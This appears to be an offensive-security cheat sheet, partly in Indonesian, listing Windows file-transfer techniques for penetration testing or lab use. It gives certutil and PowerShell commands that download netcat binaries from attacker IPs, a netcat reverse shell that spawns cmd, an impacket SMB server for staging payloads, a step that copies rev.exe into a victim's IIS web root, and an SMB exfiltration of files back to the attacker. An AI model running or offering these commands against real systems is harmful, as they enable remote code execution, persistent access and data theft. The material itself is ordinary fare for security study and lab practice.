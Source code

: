 # Download and Upload

## Download File From CMD (Not PowerShell) -- 
certutil.exe -urlcache -split -f "http://10.14.17.16:4545/nc.exe" nc.exe

### Reverse Shell
%tmp%\nc.exe IP PORT -e cmd

## Download File From PowerShell) -- 

```
(New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")
```

```
powershell Invoke-WebRequest -Uri "http://10.10.14.22:8081/nc64.exe" -OutFile "C:\Windows\Temp\nc64.exe
```

## Download File From SMB
### Attacker
```
impacket-smbserver drop $(pwd) -smb2support
```

`drop` adalah nama direktori yang akan di share

### Client victim
```
copy \\10.10.14.3\drop\rev.exe c:\Inetpub\wwwroot\rev.exe
```

## Transfer file from victim to attacker
### Client
```
net use z: \\10.10.10.1\share

copy test.txt z:
```

